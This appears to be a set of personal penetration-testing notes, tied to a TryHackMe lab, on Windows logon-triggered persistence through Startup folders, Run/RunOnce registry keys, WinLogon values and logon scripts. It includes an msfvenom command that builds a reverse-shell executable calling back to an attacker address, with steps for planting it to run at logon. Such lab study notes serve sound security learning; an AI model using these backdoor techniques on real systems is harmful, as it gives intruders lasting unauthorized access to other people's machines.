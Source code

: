 # Windows Persistence - Logon Triggered

## Startup Folder

Each user has a:
- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
To force all users to run a payload user: 
- `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f exe -o revshell.exe
```
Transfer to target machine and copy to one of the above locations.

Registry key:
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

## Run / RunOnce
Instead of a directory you can modify the registery entries to specify application to run at logon:
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

`Right-Click -> New -> Expandable String Value`
Name it, set type to `REG_EXPAND_SZ` and data as path to reverse shell.

## WinLogon

WinLogon loads user profiles after authenication, it uses registry keys under: 
- `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` - change either of the below:
	- `Userinit` points to `userinit.exe`
	- `Shell` points to a system shell

## Logon Scripts

`userinit.exe` while loading a user profile checks the environment variable called `UserInitMprLogonScript`. It is `HKCU` defined and must configured for each user that you require to have backdoor to. 
- `HKCU\Environment` - Parent key to make the subkey under:
	- `UserInitMprLogonScript`; `REG_EXPAND_SZ`; `Path to backdoor`

`HKCU\Environment\UserInitMprLogonScript` for full registry path

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)